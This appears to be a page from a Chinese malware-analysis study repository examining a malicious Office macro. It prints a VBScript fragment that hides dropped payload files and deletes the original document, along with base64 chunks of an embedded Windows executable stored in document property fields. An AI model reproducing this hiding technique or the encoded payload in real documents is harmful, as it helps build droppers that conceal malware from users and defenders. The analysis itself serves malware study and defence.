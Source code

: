 ```vbscript
        If Dir(PathPld) <> "" Then  #进行隐藏属性设置
       SetAttr PathPld, vbHidden
    End If
    
        If Dir(PathPldBt) <> "" Then  #进行隐藏属性设置
         SetAttr PathPldBt, vbHidden
    End If
    
        If Dir(Path) <> "" Then  #进行文件删除
         Kill Path
    End If

End Sub


```







在信息提取方面 发现VBA 有自己的调试器  好用 啊  可以 ADD watch 之后单步调试666

![QQ20180718161508.png](https://github.com/zhongshendoushuizhao/project/blob/master/APT&malwarle_learn/picture/QQ20180718161508.png?raw=true) 





单步情况下

Subject="TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA4AAAAA4fug4AtAnNIbgBTM0hVGhpcyBwcm9ncmFtIGNhbm5vdCBiZSBydW4gaW4gRE9TIG1vZGUuDQ0KJAAAAAAAAACseA3F6BljlugZY5boGWOWh2/IlsEZY5aHb/2W+BljlodvyZabGWOW4WHwluMZY5boGWKWjhljlodvzJ



Company="T2BkB1BYAOAusJZosAZokDg8MCK13wiV306ZL+////FRTQABBqBV47xnUX6Nrr///HAAkAAADo4uv//4kw6Wr+//+D+G0PhVr+//+DZewA6Vz+//8zwF9bXsnDahBokPYAEOh39P//i10Ig/v+dRvoqev//4MgAOiO6///xwAJAAAAg8j/6bYAAACF23gIOx0oOgEQchroguv//4MgAOhn6///xwAJAAAA6Bb0///r0ovDwfgFjTyFQDoB



Category="6FKF////tsgAAADoR4X///+2zAAAAOg8hf//g8RA/7bQAAAA6C6F////trgAAADoI4X///+22AAAAOgYhf///7bcAAAA6A2F////tuAAAADoAoX///+25AAAAOj3hP///7boAAAA6OyE////tuwAAADo4YT///+21AAAAOjWhP///7bwAAAA6MuE////tvQAAADowIT///+2+AAAAOi1hP///7b8AAAA6KqE////tgABAADon4T///+2BA



Hyperlink_base="T+AAAAAAAAAAAAAFYBAQAQ0AAA5P4AAAAAAAAAAAAAmAEBAADQAAAYAAEAAAAAAAAAAADSAQEANNEAAAAAAAAAAAAAAAAAAAAAAAAAAAAAhgEBAHYBAQBkAQEAAAAAAPAAAQAEAQEA6AABACQBAQA6AQEA0gABAMAAAQC0AAEAqAABAJwAAQCCAAEAdAABAGIAAQBUAAEARAABADgAAQAUAQEAJAABAL4FAQCuBQEAngUBAJAFAQDeAQEA



Comments="FUTBiHXYi/joBjehYkAcOf913OhKKoQBLGAD6B2AAYuKNYFeWeAe2Goroo4Y3OgFgQQgAtxqLAMgAuANaAAAgABWAcEO5P914Ff/FUJUAWXwVuiYYBP/MHXs6NMBX0EG7GqAAGoAVv8VUAAEIcAMTINl9KAd8GohwW/0x0XwInFoEygAACCABEzBcH30geE1xkX/NHQJgAESlGAYdQTAATJqAQiNRf9ACvjojf0LgkmJo1NBo8hQ6I4TQE

